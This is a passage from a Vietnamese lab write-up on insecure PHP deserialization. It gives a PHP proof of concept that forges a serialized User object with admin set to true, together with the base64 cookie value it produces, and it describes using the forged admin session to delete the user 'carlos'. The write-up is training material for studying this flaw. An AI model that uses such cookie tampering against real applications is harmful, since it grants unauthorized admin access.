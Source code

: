 ```
    [admin] =>
)
```
- Class chứa 2 thuộc tính là username và admin có vẻ đây là xét có phải admin hay không.

- Bây giờ mình đánh cắp phiên `admin` bằng cách đổi admin thành `1`.


```
<?php

class User {
   public  $username; 
   public  $admin;
   function __construct($username, $admin){
      $this->username = $username;
      $this->admin = $admin;
   }

}

$poc = new User("viewner", true);

$poc = serialize($poc);

echo base64_encode($poc);

// $a= "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d";

// $a = base64_decode($a);

// $b= unserialize($a);

// print_r($b);

?>

```

`Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=`

- ![image](https://hackmd.io/_uploads/Bycx7NF06.png)

- ![image](https://hackmd.io/_uploads/ryYNmVKCa.png)

- Bây giờ thì xóa user `carlos` và solved bài lab:
- ![image](https://hackmd.io/_uploads/By4DmNY06.png)

- ![image](https://hackmd.io/_uploads/r1e_mEK0a.png)


## Lab: Modifying serialized data types

- Đề bài yêu cầu như sau:
- ![image](https://hackmd.io/_uploads/Bkuw4NtCa.png)
